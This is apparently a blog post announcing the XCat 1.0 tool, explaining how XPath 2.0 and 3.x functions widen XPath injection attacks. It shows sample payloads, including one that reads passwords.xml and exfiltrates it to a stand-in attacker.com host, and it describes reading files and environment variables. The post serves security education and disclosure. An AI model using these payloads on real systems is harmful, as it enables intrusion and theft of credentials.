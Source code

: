 ```yaml
---
title: "XCat 1.0 released or: XPath injection issues are under appreciated"
date: "2018-12-09T19:58:01Z"
draft: false
tags:
   - projects
   - security
---
```


*tl;dr: XPath injection flaws allow you to exfiltrate a surprising amount of potentially sensitive information, the 
lack of awareness around this and the lack of inbuilt security features makes for a potent mix*

I've just released [xcat 1.0](https://github.com/orf/xcat) and it's
[demonstration application](https://github.com/orf/xcat_app) after like 5 years of on-off development. Feels good!

The genesis of xcat was when my boss, Sid, walked up to me out of the blue and asked if I wanted to go on an all 
expenses paid trip to Amsterdam. Who the hell wouldn't say yes to that proposition? *"Great! you've got a month to write
a research paper on XPath injection flaws and we will present it at Blackhat Europe"*. Wait... slow down! What's XPath?!

As it turns out XPath is what you get when you combine the unholy trinity of **XML**, **design-by-committee** and 
**large quantities of drugs**. But before I get into that here's a short demo of me listing directories, reading 
arbitrary files and dumping environment variables through a simple innocuous XPath injection flaw, using `xcat`:
 
<center>
<script id="asciicast-216044" src="https://asciinema.org/a/216044.js" async></script>
</center>

*I recommend reading a little bit about what XPath is and a little bit about blind injection vulnerabilities.
I wrote [an introduction here](http://localhost:1313/exploiting-xpath-injection-vulnerabilities-with-xcat/) or there 
is the venerable [OWASP page on the topic](https://www.owasp.org/index.php/XPATH_Injection).*


## XPath 1.0

So, back to large quantities of drugs. The year was 1999. Intel had just released the 800 MHZ Pentium III, Internet
Explorer 5.0 was the hot new browser and XML was all the rage.
 
All was not well in the land of XML though: parsing, filtering and generally using it was a huge pain. So some clever
people invented a nice, clean and concise syntax for querying it documents without any hassle:

`//Employee[UserName/text()='tom']`

Cool! This seems a lot simpler and more flexible than whatever manual parsing/iteration you'd come up with
in `$FAVORITE_LANGUAGE`. And this was XPath, the people rejoiced and the world was good.

Until 2010.

## XPath 2.0

It was decided in 2010 that XPath 1.0 was too simple. What it clearly, *clearly* lacked was a weird type system
(it's both strongly and weakly typed), a [greatly expanded type heirachy](https://upload.wikimedia.org/wikipedia/commons/9/91/XQuery_and_XPath_Data_Model_type_hierarchy.png)
(seriously go look at that), `isinstance` checks, casting and a much larger function library.

Now don't get me wrong: some of these are good changes. But what snuck into this version is the 
[fairly innocuous  `doc` function](https://maxtoroq.github.io/xpath-ref/fn/doc.html). Seems simple - you can reference 
external XML files in your query (almost like a join) and I'm sure there are use cases for this.

This function jumped right out at me when I was struggling 
[through the very, very dense XPath specification](https://www.w3.org/TR/xpath20/), wondering if I should just buy my
own bloody holiday to Amsterdam. What does `doc('https://attacker.com/xxe.xml')` do? Or
`doc('ftp://internalserver/passwords.xml')`? Or, heck, even `doc('gopher://server/something')`?

Turns out it does what you would expect. It makes the request. So now if you find an exploitable XPath injection flaw 
you can make arbitrary network requests for any XML-like document you can find. If your internal services respond with 
HTML that parses as XML that's great! Or how about if all your Java/.NET configuration files are in XML, storing all 
those juicy database passwords? That's even better! **We can now read them and download them via any XPath 2.0 injection 
issue.**

Other than this the interesting thing is you can use this function to exfiltrate large quantities of data really 
quickly. The specification very nicely includes [an `encode-for-uri` method](https://maxtoroq.github.io/xpath-ref/fn/encode-for-uri.html), 
so we could just do:

`doc(string-join('http://attacker.com/?d', encode-for-uri(doc('passwords.xml')/some-node)))`

Another cool issue is [external entity injection](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing). 
The tl;dr is you can serve up a malicious XML file that is requested by `doc()` that can read arbitrary files on the filesystem!

Awesome! [xcat implements these attacks](https://xcat.readthedocs.io/en/latest/OOB-server/) by the way.

The real kicker here is:

- You need to explicitly configure your XPath engine to protect against all of this, which inevitably nobody does because 
  nobody expects it. It's just a simple query language, right?
  
- There is no concept of parameterized queries like you have in every SQL adapter. It has to be done manually, and 
  it has to be done **correctly in every input**. If you miss something then you're vulnerable to all of this!
  
And this was XPath 2.0. Tom got to go to Amsterdam and
[present at Black Hat Europe](https://media.blackhat.com/bh-eu-12/Siddharth/bh-eu-12-Siddharth-Xpath-Slides.pdf), and 
the world was good.

Until 2014. At which point the drugs really kicked in.

## XPath 3.0/3.1

It was decided in 2014 that XPath 2.0 was too simple. What it clearly, *clearly* lacked was dynamic function calls,
for loops, introspection, array map/filter/reduce, associative arrays, 
[**dynamic module loading**](https://maxtoroq.github.io/xpath-ref/fn/load-xquery-module.html), JSON parsing, 
inline functions, exceptions and tracebacks.

So now our lovely, simple XPath has evolved into:

```
for-each(normalize-unicode(upper-case(json-doc('x.json'))) => tokenize("\s+"),
         function($a) {
            let $a := $a * 10
            load-xquery-module('abc'):some-func(
                        function-lookup($a, 1)(array:map($a, function($b) {
                                let $c := unparsed-text-lines($b)
                                trace($c)
                                if ($c) {
                                    return xml-to-json($b)
                                } else {
                                    error('This is an error')
                                }
                        })) 
            }
)
```

Yay! The future is here! Can you smell the progress?

Aside from trying to turn XPath into some JavaScript abomination they also added three interesting functions:

* [unparsed-text](https://maxtoroq.github.io/xpath-ref/fn/unparsed-text.html)
* [environment-variable](https://maxtoroq.github.io/xpath-ref/fn/environment-variable.html)
* [json-doc](https://maxtoroq.github.io/xpath-ref/fn/json-doc.html)

With these we **can read any arbitrary text files**, and iterate through **all environment variables**.

Also if your internal webservice speaks JSON, well then buddy you're in luck! A simple XPath injection flaw can let the 
attacker read all of those responses using the handy JSON functions introduced in 3.1.

So, utilizing the same injection flaw and the same out-of-bound attack discussed above we can exfiltrate any readable 
file on the filesystem, or network, quickly and cleanly.

## Summary

I'm sure they are already working on XPath 4.0. I wonder if they will add DirectX support, I think it's really lacking 
in that area.